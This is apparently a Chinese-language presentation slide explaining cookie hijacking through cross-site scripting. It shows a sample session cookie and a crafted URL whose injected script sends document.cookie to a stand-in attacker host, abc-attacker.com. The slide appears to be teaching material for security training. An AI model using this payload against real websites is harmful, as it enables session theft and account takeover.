

# 利用XSS进行cookie劫持
流程
1 用户登录网站得到一个令牌
Set-Cookie: sessId=182912djfk123203;
2 攻击者在网站页面中设定URL链接
https://abc-app.com/error.php?message=<script>var+i=new+Image;+i.src="http://abc-attacker.com/"%2bdocument.cookie;</script>